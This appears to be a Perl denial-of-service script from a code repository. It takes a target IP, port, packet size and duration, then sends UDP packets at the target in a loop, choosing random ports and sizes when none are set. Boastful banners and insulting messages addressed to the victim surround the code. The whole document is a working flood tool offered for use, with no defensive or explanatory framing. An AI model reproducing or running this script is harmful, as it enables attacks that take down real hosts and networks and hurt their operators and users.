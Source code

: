 # ScriptDDosMC
Script DDos,Potente
use Term::ANSIColor qw(:constants);
    $Term::ANSIColor::AUTORESET = 2;

print BOLD RED "IP first";
print BOLD YELLOW "port Second\n";
print BOLD GREEN "packets third";
print BOLD BLACK  "seconds last\n";
 
############
# McCayden<----
############
 
use Socket;
use strict;
 
my ($ip,$port,$size,$time) = @ARGV;
 
my ($iaddr,$endtime,$psize,$pport);
 
$iaddr = inet_aton("$ip") or die "Cannot resolve hostname $ip\n";
$endtime = time() + ($time ? $time : 100);
socket(flood, PF_INET, SOCK_DGRAM, 17);
 
print BOLD GREEN<<EOTEXT;

||'  '|' '||''|.   '||''|.         IP: $ip
||    |   ||   ||   ||   ||      PORT: $port
||    |   ||    ||  ||...|'   PACKETS: $size
||    |   ||    ||  ||           TIME: $time
 '|..'   .||...|'  .||.

DDoS GoD By McCayden YoU JuSt HiT $ip with $size packets.

-VGBoot DDoS script.
By: xxjasontpikexx AKA DEEP-WEB (GHOST HACKER)                 
       
EOTEXT
 
use Term::ANSIColor qw(:constants);
    $Term::ANSIColor::AUTORESET = 2;
print "~ FuCk YoU~ $ip " . ($port ? $port : "random") . "-" .
  ($size ? "$size-byte" : "Get Null Routed Bitch!?") . "
~ DDoSing $ip.
~ #OffLine ~ " .
  ($time ? " for $time seconds" : "") . "\n";
print "Break with Ctrl-C\n" unless $time;  
 
for (;time() <= $endtime;) {
  $psize = $size ? $size : int(rand(1500000-64)+64) ;
  $pport = $port ? $port : int(rand(1500000))+1;
 
send(flood, pack("a$psize","flood"), 0, pack_sockaddr_in($pport,
 $iaddr));}

 
               
       
